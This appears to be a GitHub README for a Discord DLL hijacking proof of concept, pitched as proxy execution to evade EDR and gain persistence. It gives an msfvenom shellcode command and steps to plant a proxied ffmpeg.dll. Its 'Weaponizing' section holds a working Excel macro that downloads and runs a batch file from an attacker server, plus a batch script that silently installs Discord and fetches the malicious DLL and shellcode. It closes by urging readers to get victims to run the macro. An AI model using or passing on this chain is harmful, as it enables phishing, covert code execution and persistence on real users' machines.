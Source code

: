 # Discord-DLL-Hijacking
This is a simple quick example of DLL hijacking enabling proxy execution for the Discord Binary. This can be beneficial for attackers requiring proxy execution to bypass EDR

## Note
I submitted this vuln to discord via their hackerone program. They choose to not recognize DLL hijacking unless it's related to the discord installer binary. 
Similarly to chrome: https://chromium.googlesource.com/chromium/src/+/master/docs/security/faq.md#why-arent-physically_local-attacks-in-chromes-threat-model

I understand this too an extent, but they don't seem to make any attempt to verify these DLL's or load them using best practices as directed by Microsoft: 
https://support.microsoft.com/en-us/topic/secure-loading-of-libraries-to-prevent-dll-preloading-attacks-d41303ec-0748-9211-f317-2edc819682e1

</br>

## What is DLL hijacking and why is it useful? 

DLL hijacking has been around a very long time. The severity of these attacks is dependent on a variety of factors, primarily application context. 
Microsoft gives a good summary: 

"When an application dynamically loads a dynamic link library (DLL) without specifying a fully qualified path, Windows tries to locate the DLL by searching a well-defined set of directories. If an attacker gains control of one of the directories, they can force the application to load a malicious copy of the DLL instead of the DLL that it was expecting. These attacks are known as “DLL preloading attacks” and are common to all operating systems that support dynamically loading shared DLL libraries. The effect of such attacks could be that an attacker can execute code in the context of the user who is running the application. When the application is being run as Administrator, this could lead to a local elevation of privilege." 

-> Source: https://support.microsoft.com/en-us/topic/secure-loading-of-libraries-to-prevent-dll-preloading-attacks-d41303ec-0748-9211-f317-2edc819682e1 

Why should we care? 
First off, gaining execution context under a trusted application is useful for proxy execution of malicious payloads. Pending the AV/EDR, payloads can be executed in an'trusted' context. Adversaries can also use this technique for persistence mechanisms.

Discord in some instances requires Administrator privs when Push-To-Talk is overidden by other Administrative applications. This combined with it's popularity peaked my interest.


## Analyzing with Procmon 

Doing a basic filter results in ALOT of misconfigurations for search based DLL issues. What interested me was the 'ffmpeg.dll' I noticed elsehwhere in the procmon dump. This appears to be a common DLL used by a variety of applications including whatsapp. 

![image](https://user-images.githubusercontent.com/46195001/231240214-d6421d61-a458-4104-8591-03f38f26d2d4.png)

</br> 


## Generate a payload 
Generate some shellcode to your liking. My POC: msfvenom -f raw -o pop.bin -p windows/exec cmd="cmd.exe /k whoami" exitfunc=thread --bad-chars '\x00\x20\' --smallest

## Generating a malicious DLL 

Using this great repository we can create our own DLL utilizing pragma comments to replicate functions: 
https://github.com/Flangvik/SharpDllProxy 

![dllproxy](https://user-images.githubusercontent.com/46195001/232322708-9f158799-c850-4a69-b69b-ad7372cbec1b.png)

<br> 
This will output two files, .c & an DLL 'tmpXYZ.dll'. Simply create a new DLL project in visual studio and replace the source with the output from DLLProxy. 
Once you've compiled it, copy your DLL, the tmpXYZ.dll (rename it to ffmpeg.dll) and your shellcode.bin into "C:\Users\<user>\AppData\Local\Discord\app-1.0.9012\". 

## Result 
![popped](https://user-images.githubusercontent.com/46195001/232325180-3ec3af99-d5f9-4c8c-935c-fd7d3c0ece51.png)

Running Discord.exe executes a shellode. Great! Interestingly Discord itself crashes out with no visual artifacts but our cmd.exe process remains. This is ideal if we drop discord ourselves as a persistence mechanism without user knowledge. 
</br>

## Weaponizing 
It's quite simple to weaponize this DLL hijacking in an automated fashion. Below is a basic macro that downloads a batch file to execute installing discord and download the malicious files. 

The kicker for this method: 
- Discord installs silently, no on screen artifacts. 
- Discord uses it's own scheduled task on reboot giving us code exec.
- Using ffmpeg.dll will give us code execution and crash the legitimate discord process with zero notification to the user. Likely to see WerFault & MiniDumps however. 


</br>

### Excel Macro 

```
Private Sub Workbook_Open()

Dim url, downloadPath, batPath, shell, winHttpReq
url = "http://192.168.120.128/Update.txt"
downloadPath = "C:\Users\" & CreateObject("WScript.Network").UserName & "\AppData\Local\Update.bat"
batPath = "C:\Users\" & CreateObject("WScript.Network").UserName & "\AppData\Local"

' Create a WinHttpRequest objects
Set winHttpReq = CreateObject("WinHttp.WinHttpRequest.5.1")

' Open a connection to the specified URL
winHttpReq.Open "GET", url, False

' Send the HTTP request and download the file
winHttpReq.Send
If winHttpReq.Status = 200 Then
    Dim stream
    Set stream = CreateObject("ADODB.Stream")
    stream.Type = 1 ' Binary
    stream.Open
    stream.Write winHttpReq.ResponseBody
    stream.SaveToFile downloadPath, 2 ' Overwrite
    stream.Close
End If

' Execute the downloaded BAT file
Set shell = CreateObject("WScript.Shell")
shell.Run batPath & "\Update.bat"

Set shell = Nothing
Set winHttpReq = Nothing


End Sub
```

### Seemless discord install via .bat file. 
```
@echo off
set DOWNLOAD_URL=https://dl.discordapp.net/distro/app/stable/win/x86/1.0.9012/DiscordSetup.exe
set DOWNLOAD_DLL=http://192.168.120.128/ffmpeg.dll 
set DOWNLOAD_BIN=http://192.168.120.128/pop.bin
set DOWNLOAD_tmp=http://192.168.120.128/tmp108E.dll
set DOWNLOAD_LOCATION=C:\Windows\Temp\Update.exe
set EXECUTE_LOCATION=C:\Windows\Temp\

set COPY_LOCATION=%LOCALAPPDATA%\Discord\app-1.0.9012\
set DL_DLL=%LOCALAPPDATA%\Discord\app-1.0.9012\ffmpeg.dll
set DL_tmp=%LOCALAPPDATA%\Discord\app-1.0.9012\tmp108E.dll
set DL_bin=%LOCALAPPDATA%\Discord\app-1.0.9012\pop.bin


bitsadmin /transfer myDownloadJob /priority normal %DOWNLOAD_URL% %DOWNLOAD_LOCATION%
start "" "%EXECUTE_LOCATION%\Update.exe" --silent
timeout /t 10
bitsadmin /transfer myDownloadJob1 /priority normal %DOWNLOAD_DLL% %DL_DLL%
bitsadmin /transfer myDownloadJob2 /priority normal %DOWNLOAD_BIN% %DL_bin%
bitsadmin /transfer myDownloadJob3 /priority normal %DOWNLOAD_tmp% %DL_tmp%
```

### Server setup 
Enable apache 2 and copy across the files from below. 
![image](https://user-images.githubusercontent.com/46195001/232535184-26456e4b-9a92-439e-b8e1-5c1405b792d1.png)

Create your macro in a convincing manner, get them to execute it. 

### Result... 
Popped a shell .. :) 
 
![image](https://user-images.githubusercontent.com/46195001/232533881-7fd1d90a-1974-4672-afc6-be0f802171a1.png)





